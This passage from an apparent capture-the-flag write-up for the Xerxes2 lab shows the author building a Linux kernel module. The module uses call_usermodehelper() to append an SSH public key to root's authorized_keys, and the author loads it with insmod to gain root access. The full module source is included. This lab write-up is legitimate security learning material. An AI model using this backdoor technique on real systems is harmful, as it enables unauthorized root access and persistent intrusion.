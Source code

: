 Alrighty, that was, easy! However, this is not really useful. I want command execution! So, what did I do? `#include <stdio.h>`, and `system()` some commands to run `stuff`, getting me a `/tmp/getroot` prepared.

_insert loud crash and burn sound here_

Turns out, kernel development is pretty anti command execution. Compiling modules that have stuff like `stdio.h` included will fail with headers not found type errors. One can hack the Makefile to include headers from `/usr/include`, but it just ends up being a mess. However, there is a handy little function in `kmod.h` called `call_usermodehelper()`. From the [kernel docs](https://www.kernel.org/doc/htmldocs/kernel-api/API-call-usermodehelper.html), `call_usermodehelper()` will _prepare and start a usermode application_. **That** sounds pretty handy in our case :)

So, time to rewrite `hello.c` to be useful! Puzzling the pieces together I found on the internet, [this](http://stackoverflow.com/questions/7143105/call-usermodehelper-call-usermodehelperpipe-usage) amongst other pieces of information helped get the ball rolling.

```bash
#include <linux/module.h>       /* Needed by all modules */
#include <linux/kernel.h>       /* Needed for KERN_INFO */
#include <linux/init.h>         /* Needed for the macros */

/* For our shell ^_^ */
#include<linux/kmod.h>

int get_root (void)
{

    char * envp[] = { "HOME=/", NULL };
    char *argv[] = { "/bin/bash", "-c", "/bin/cat /tmp/pubkey >> /root/.ssh/authorized_keys", NULL};
    printk(KERN_INFO "Call Usermodehelper...\n");
    call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
    printk(KERN_INFO "Done usermodehelper...\n");
    return 0;
}

static int __init hello_start(void)
{
    printk(KERN_INFO "Loading rooted module...\n");
    return get_root();
    return 0;
}

static void __exit hello_end(void)
{
    printk(KERN_INFO "Goodbye Mr.\n");
}

module_init(hello_start);
module_exit(hello_end);
```

As can be seen in the code above, I added a function `get_root()`, that will append whatever is in `/tmp/pubkey` to `/root/.ssh/authorized_keys` using `call_usermodehelper`. `/tmp/pubkey` contained the public key of the keypair I generated at the beginning of starting Xerxes2. I modified `Makefile` to have `obj-m += rooted.o` this time, `make`'d the source and ran the `insmod` for the newly build `rooted.ko`. Then, I inspected the kernel messages again, and attempted to login as root:
